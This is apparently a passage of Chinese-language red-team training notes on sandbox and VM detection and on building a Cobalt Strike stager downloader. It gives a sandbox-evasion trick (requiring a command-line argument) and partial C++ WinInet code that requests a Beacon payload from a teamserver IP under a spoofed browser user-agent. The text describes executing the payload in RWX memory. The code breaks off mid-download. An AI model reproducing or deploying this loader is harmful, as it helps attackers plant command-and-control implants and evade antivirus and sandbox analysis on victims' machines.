 通过注册表检测沙箱，检测vm

![](F:\file\知识\深圳分区\8月技术培训\图片1.png)

但是检测沙箱反而会引起杀软的注意。让程序在沙箱里面不能正常执行就能绕过沙箱检测。比如添加特定参数才能正常执行。

# cs下载器原理实现

下载器原理就是访问cs的stager下载stageless Beacon。通过get请求cs的porfile文件中的http-stager中x86或x64的url。下载后跳过配置文件前面追加字符, 然后执行cc指向的内容，这里与加载器的区别就是这里的内存是rwx, 加载器rx

```c++
/*#include <iostream>
#include <Windows.h>
#include <stdio.h>
#include <WinInet.h>
using namespace std;
#pragma comment(lib,"wininet")
int main(int argc, char* argv[]) {
    if (argc > 1)//通过传入参数绕过沙箱
    {
        HINTERNET nethandle = InternetOpenA("Mozilla/5.0 (Windows NT 10.0; WOW64) (KHTML, like Gecko) Chrome/77.0 Safari/536", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);//user-agent可以修改
        if (nethandle == NULL) {
            printf("internet open error:%d\n", GetLastError());
            return 0;
        }
        char* host = (char*)"192.168.211.129";//cs的ip
        HINTERNET Session = InternetConnectA(nethandle, host, INTERNET_DEFAULT_HTTP_PORT, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);//使用https加密传输
        if (Session == NULL)
        {
            printf("internet connect error:%d\n", GetLastError());
            return 0;
        }
        HINTERNET HttpRequest = HttpOpenRequestA(Session, "GET", "/jquery-3.3.2.slim.min.js", "HTTP/1.0", NULL, NULL, INTERNET_FLAG_DONT_CACHE, 0);//通过get请求profile文件中64位的url地址
        if (HttpRequest == NULL) {
            printf("http open request error:%d\n", GetLastError());
            return 0;
        }
        int ret = HttpSendRequestA(HttpRequest, NULL, 0, NULL, 0);
        if (ret == FALSE) {
            printf("http send request error:%d\n", GetLastError());
            return 0;
        }
        char* statscode[16] = { 0 };
        int size = 16;
        ret = HttpQueryInfoA(HttpRequest, HTTP_QUERY_STATUS_CODE, statscode, (LPDWORD)&size, NULL);
        if (ret == FALSE) {
            printf("httpqueryinfo error:%d\n", GetLastError());
            return 0;
        }
        int scode = atoi((const char*)statscode);
        printf("code:%d\n", scode);
        if (scode != HTTP_STATUS_OK && scode != HTTP_STATUS_CREATED) {
            printf("%d please retry\n", scode);
            return 0;
        }
        char* contentL[16] = { 0 };
        size = 16;
        ret = HttpQueryInfoA(HttpRequest, HTTP_QUERY_CONTENT_LENGTH, contentL, (LPDWORD)&size, NULL);
        int length = atoi((const char*)contentL);
```